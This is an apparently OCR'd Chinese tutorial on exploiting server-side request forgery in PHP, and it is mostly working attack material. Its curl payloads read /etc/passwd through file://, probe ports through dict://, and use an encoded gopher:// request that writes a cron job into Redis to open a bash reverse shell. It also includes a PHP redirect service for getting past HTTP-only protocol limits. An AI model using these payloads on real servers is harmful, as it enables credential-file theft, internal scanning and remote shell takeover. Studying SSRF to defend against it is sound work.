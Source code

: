 ### 利用方式
利用file协议任意文件读取
curl -v 'http://sec.com:8082/sec/ssrf.php?url=file:///etc/passwd'
利用dict协议查看端口
curl -v 'http://sec.com:8082/sec/ssrf.php?url=dict://127.0.0.1:22'
利用gopher协议反弹shell
curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'
限制协议为HTTP、HTTPS 设置跳转重定向为True（默认不跳转）的情况
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, True);
    // 限制为HTTPS、HTTP协议
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
?>
远程利用方式
当URL存在临时(302)或永久(301)跳转时，则继续请求跳转后的URL

那么我们可以通过HTTP(S)的链接302跳转到gopher协议上。

我们继续构造一个302跳转服务，代码如下302.php:
<?php  
$schema = $_GET['s'];
$ip     = $_GET['i'];
$port   = $_GET['p'];
$query  = $_GET['q'];
if(empty($port)){  
    header("Location: $schema://$ip/$query"); 
} else {
    header("Location: $schema://$ip:$port/$query"); 
}

利用测试
#### dict protocol - 探测Redis
dict://127.0.0.1:6379/info  
curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=dict&i=127.0.0.1&port=6379&query=info'
